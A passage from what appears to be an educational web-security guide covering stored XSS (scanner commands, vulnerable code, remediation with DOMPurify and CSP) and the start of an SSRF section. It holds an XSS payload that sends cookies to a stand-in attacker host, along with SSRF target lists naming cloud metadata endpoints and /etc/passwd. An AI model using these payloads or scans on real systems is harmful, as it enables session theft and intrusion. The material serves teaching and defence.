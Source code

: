 **Automated Tools:**
```bash
# Using DalFox
dalfox url "https://target.com/search?q=test"

# Using XSStrike
python xsstrike.py -u "https://target.com/page?param=test"
```

### Real-World Example

**Scenario:** Stored XSS in Comment System

**Vulnerable Code:**
```javascript
// Server renders HTML directly from user input
document.getElementById('comments').innerHTML += '<div class="comment">' + commentData.text + '</div>';
```

**Attack Input:**
```html
<img src=x onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
```

**HackerOne Report:** [#1125425 - Stored XSS in Slack](https://hackerone.com/reports/1125425)

### Remediation

1. **Context-Specific Output Encoding:**
```javascript
// Use proper encoding libraries
const encodedComment = DOMPurify.sanitize(commentData.text);
document.getElementById('comments').innerHTML += '<div class="comment">' + encodedComment + '</div>';
```

2. **Implement Content Security Policy (CSP)**
3. **Validate input data**
4. **Use modern frameworks that auto-escape content**

---

## Server-Side Request Forgery (SSRF)

SSRF allows attackers to induce the server to make requests to an unintended location.

### Detection

**Common SSRF Targets:**
- Internal services: `localhost`, `127.0.0.1`, internal IPs
- Cloud metadata services: `169.254.169.254` (AWS), `metadata.google.internal` (GCP)
- File schemas: `file:///etc/passwd`

**Testing Techniques:**
1. Direct testing with internal URLs
2. Testing URL parsers with unusual formats
3. DNS rebinding attacks
4. Using Collaborator/Burp Collaborator to detect blind SSRF
